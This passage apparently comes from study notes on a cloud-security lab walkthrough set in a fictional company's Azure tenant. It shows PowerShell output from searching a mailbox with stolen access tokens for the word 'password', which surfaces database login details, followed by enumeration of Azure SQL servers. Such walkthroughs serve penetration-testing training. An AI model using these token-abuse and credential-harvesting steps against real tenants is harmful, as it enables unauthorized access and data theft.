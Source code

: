 ```powershell
Subject: RE: Quick Heads-Up on This Month's Recons! | Sender: /O=EXCHANGELABS/OU=EXCHANGE ADMINISTRATIVE GROUP (FYDIBOHF23SPDLT)/CN=RECIPIENTS/CN=EF775FA670FB409789970E587F6F4F04-36FA333D-1
7 | Receivers: Sam Olsson | Date: 11/06/2023 14:59:37 | Message Preview: ...6, 2023 2:52 PM To: Clara Miller <Clara.Miller@megabigtech.com> Subject: Quick Heads-Up on This Month's Recons! H
ey Clara, Hope you're doing well! Just wanted to drop you a quick ...   
================================================================================
Subject: Quick Heads-Up on This Month's Recons! | Sender: Sam.Olsson@megabigtech.com | Receivers: Clara Miller | Date: 11/06/2023 14:51:56 | Message Preview: Hey Clara, Hope you're doing we
ll! Just wanted to drop you a quick note about the reconciliations we've got lined up for the end-of-month close. Here's what's on the deck: Bank ...
================================================================================
[*] Do you want to download these emails and their attachments? (Yes/No)





PS> Invoke-SearchMailbox -Tokens $tokens -SearchTerm "password" -MessageCount 40
[*] Using the provided access tokens.
[*] Found 5 matches for search term password
Subject: Subscribers database | Sender: /O=EXCHANGELABS/OU=EXCHANGE ADMINISTRATIVE GROUP (FYDIBOHF23SPDLT)/CN=RECIPIENTS/CN=EF775FA670FB409789970E587F6F4F04-36FA333D-17 | Receivers: Sam Olsson | Date: 11/06/2023 17:24:50 | Message Preview: ...login below: Username: financereports Password: $********** Server: mbt-finance.database.windows.net Database: Finance Clara ...
================================================================================
[*] Do you want to download these emails and their attachments? (Yes/No)


```

See the difference? I missed the critical information. 
It seems like some sort of database is needed. What do I know about database here? Nothing. So let's dig a little bit. With knowing that this is for the SQL database, we can use the database enumeration commands. 
[../../../0.1. Learn Cloud/0.1.2 Azure/0.1.2.2. Azure Services/Azure SQL#2.1 For database|../Azure Services/Azure SQL#2.1 For database](<../../../0.1. Learn Cloud/0.1.2 Azure/0.1.2.2. Azure Services/Azure SQL.md#21-for-databaseazure-servicesazure-sql21-for-database>)




So here are knows. 

Username: financereports 
Password: ******
Server: mbt-finance.database.windows.net 
Database: Finance 

It turns out there is a sql server I can connect to. FQND indicates the server name. 
```powershell
 az sql server list
[
  {
    "administratorLogin": "manager",
	 ...snip...
    "fullyQualifiedDomainName": "mbt-finance.database.windows.net",
    "id": "/subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourceGroups/content-static-2/providers/Microsoft.Sql/servers/mbt-finance",
	...snip...
    "location": "eastus",
    "minimalTlsVersion": "1.2",
    "name": "mbt-finance",
    ...snip...
    "resourceGroup": "content-static-2",
    ...snip...
    "type": "Microsoft.Sql/servers",
```